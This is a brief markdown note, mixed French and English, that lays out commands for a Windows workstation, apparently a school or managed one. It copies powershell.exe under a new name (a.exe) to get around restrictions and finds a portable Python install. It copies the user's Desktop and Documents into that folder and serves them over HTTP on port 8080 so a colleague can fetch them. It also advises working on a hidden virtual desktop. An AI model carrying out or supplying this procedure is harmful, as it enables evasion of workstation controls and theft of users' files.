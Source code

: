 1- Ouvrir un cmd : (Il faut faire cela sur un autre bureau Windows Windows + flèche)
```powershell=
Windows + R : cmd
```

1.1- Copie du powershell
```powershell=
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe a.exe
```

2- Find python (A ne pas faire en réel)
```powershell=
Get-ChildItem -Path C:\ -Filter "python" -Recurse -File 2>$null
```

2.1- Get into the directory
```powershell=
cd ../../../EduPython/App
```

2.2- Copy Info from Desktop 
```powershell=
copy %USERPROFILE%\Desktop .

copy %USERPROFILE%\Documents .
```

3- Execute python server
```powershell=
.\python.exe -m http.server 8080 (prendre photo)
```

4- Get the IP from the station
```powershell=
ipconfig (envoyer message check)
```

---

* Il faut faire cela sur un autre bureau Windows 
* Vérifier l'IP de la machine 
* Prendre photos check
* Demandez par message à un collègue si ok
